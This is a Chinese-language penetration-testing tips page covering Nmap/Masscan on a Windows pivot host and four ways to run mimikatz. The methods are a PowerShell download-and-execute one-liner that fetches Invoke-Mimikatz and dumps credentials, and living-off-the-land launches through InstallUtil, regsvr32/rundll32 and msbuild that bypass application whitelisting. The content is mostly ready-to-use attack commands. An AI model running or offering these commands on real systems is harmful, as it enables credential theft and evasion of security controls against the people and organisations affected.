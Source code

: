 
### Tips 24. 通过命令行能够对Windows系统安装WinPcap，这样就可以在Windows跳板上使用nmap和Masscan

参考：

[《渗透技巧——Windows平台运行Masscan和Nmap》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E5%B9%B3%E5%8F%B0%E8%BF%90%E8%A1%8CMasscan%E5%92%8CNmap/)

---

### Tips 25. Windows平台执行mimikatz的方法

#### 方法1：通过powershell

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

#### 方法2：通过InstallUtil.exe

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe
```

参考：

《利用白名单绕过360实例》

《利用白名单绕过限制的更多测试》

#### 方法3：通过regsvr32.exe

https://gist.githubusercontent.com/subTee/c3d5030bb99aa3f96bfa507c1c184504/raw/24dc0f93f1ebdda7c401dd3890259fa70d23f75b/regsvr32-katz.cs

将mimikatz封装到dll中，通过regsvr32传入参数运行mimkatz

```
rundll32 katz.dll,EntryPoint log coffee exit  
```

参考：

《Code Execution of Regsvr32.exe》

#### 方法4：通过msbuild.exe

下载xml文件，保存为a.xml：

https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20mimikatz.xml

cmd：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe executes a.xml
```
